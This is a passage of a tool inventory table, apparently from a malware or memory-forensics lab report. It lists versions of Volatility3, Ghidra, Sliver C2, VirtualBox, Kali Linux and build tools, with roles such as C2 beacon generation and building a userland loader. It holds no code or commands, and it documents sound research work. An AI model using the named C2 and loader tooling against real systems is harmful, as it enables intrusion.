|----------------------|---------------------------------------|------------------------------------------------|
| Volatility3          | 2.26.0                                | Memory forensics, module extraction            |
| Ghidra               | 11.3.2                            | Reverse engineering, disassembly, pseudo-C     |
| NetworkMiner         | 2.8.1 (mono)                          | Network artefact extraction                    |
| Sliver C2            | v1.5.43 - e116a5ec3d26e8582348a29cfd251f915ce4a405 | C2 server, beacon generation                   |
| Vagrant              | 2.4.6                                 | VM provisioning                               |
| VirtualBox           | 7.1.6r167084                          | VM management, memory/core dump                |
| Python               | 3.12                                  | Extraction scripts, analysis                   |
| Ubuntu | 24.04 (bento/ubuntu-24.04)| Developer VM OS |
| Kali Linux | 2025.4    | Attacker VM OS                                 |
| dwarf2json| commit 9f14607e0d339d463ea725fbd5c08aa7b7d40f75  | Volatility symbol file generation              |
| fzf                  | 0.64.0    | Fuzzy search in memory artefacts               |
| Gnu Make             |  4.4.1        | Build userland loader                          |
| GCC                  |14.2.1 20250207                                | Kernel/userland binary compilation             |
| Linux Kernel         | 6.8.0-53-generic   | Target system kernel                           |
| tcpdump              | 4.99.4 | Network capture                                |
| sha256sum            | coreutils 9.6| Artefact integrity verification                |
| readelf              | binutils 2.42                         | ELF analysis                                   |
| file                 | file 5.46 | Binary type identification                     |
| grep                 | coreutils 9.6| Text search in artefacts                       |
| Gnu Bash             | 5.2.37                                | Shell scripting                                |